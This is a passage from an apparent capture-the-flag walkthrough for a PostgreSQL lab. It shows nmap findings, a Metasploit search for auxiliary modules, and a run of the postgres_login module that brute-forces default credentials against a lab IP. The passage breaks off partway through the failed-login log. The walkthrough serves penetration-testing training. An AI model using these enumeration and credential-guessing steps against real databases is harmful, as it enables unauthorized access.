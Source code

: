 ## <b>Task Questions</b>

- [x] What is the rdbms installed on the server?

    * Based on the nmap results, its **`postgresql`**

- [x] What port is the rdbms running on?

    * Based on the nmap results, its **`5432`**

- [x] After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the modules (starting with auxiliary)?

    * type the command: **`msfconfole -q`** (This opens in silent mode)
    * To explicitly search auxiliary modules, you can use the following command: 
      
      &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; **`msf6 > search type:auxiliary postgres sql`**

      ```sql
        Matching Modules
        ================

        #  Name                                                       Disclosure Date  Rank    Check  Description
        -  ----                                                       ---------------  ----    -----  -----------
        0  auxiliary/server/capture/postgresql                                         normal  No     Authentication Capture: PostgreSQL
        1  auxiliary/admin/http/manageengine_pmp_privesc              2014-11-08       normal  Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
        2  auxiliary/analyze/crack_databases                                           normal  No     Password Cracker: Databases
        3  auxiliary/scanner/postgres/postgres_dbname_flag_injection                   normal  No     PostgreSQL Database Name Command Line Flag Injection
        4  auxiliary/scanner/postgres/postgres_login                                   normal  No     PostgreSQL Login Utility
        5  auxiliary/admin/postgres/postgres_readfile                                  normal  No     PostgreSQL Server Generic Query
        6  auxiliary/admin/postgres/postgres_sql                                       normal  No     PostgreSQL Server Generic Query
        7  auxiliary/scanner/postgres/postgres_version                                 normal  No     PostgreSQL Version Probe
        8  auxiliary/admin/http/rails_devise_pass_reset               2013-01-28       normal  No     Ruby on Rails Devise Authentication Password Reset
      ```

    * Based on the above results, its **`auxiliary/scanner/postgres/postgres_login`**

- [x] What are the credentials you found? example: user:password

    * `use` `auxiliary/scanner/postgres/postgres_login`
    * `set` `RHOSTS` `10.10.219.185`
    
    ```sql linenums="1" hl_lines="11"
    msf6 auxiliary(scanner/postgres/postgres_login) > run
    [!] No active DB -- Credential data will not be saved!
    [-] 10.10.219.185:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)